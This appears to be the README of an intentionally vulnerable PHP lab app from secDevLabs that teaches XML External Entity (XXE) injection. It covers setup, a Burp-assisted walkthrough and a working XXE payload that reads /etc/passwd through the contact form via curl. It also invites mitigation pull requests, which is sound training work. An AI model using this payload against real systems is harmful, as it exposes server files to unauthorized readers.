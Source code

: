 # ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/>
</p>

This is a simple PHP web application that contains an example of an XML External Entity (XXE) vulnerability and the main goal of this app is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-xxe)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app-🔧)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is XXE?

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a4/vinijr-blog
```

```sh
make install
```

Then simply visit [localhost:10080][App] ! 😆

## Get to know the app ⚽️

To properly understand how this application works, you can follow these simple steps:

- Visit it's homepage!
- Try sending ViniJR a message.

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Non sanitized input field allows for an attacker to retrieve sensitive information

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="images/attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being built using an XML (if you need any help setting up your proxy you should check this [guide](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)):

<img src="images/attack-2.png" align="center"/>



To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10080/contact.php ; echo
```

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="images/attack-3.png" align="center"/>

### 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10080/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>


## Secure this app 🔧

How would you migitate this vulnerability? After your changes, an attacker should not be able to:

* Extract data from the server through the method shown above.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10080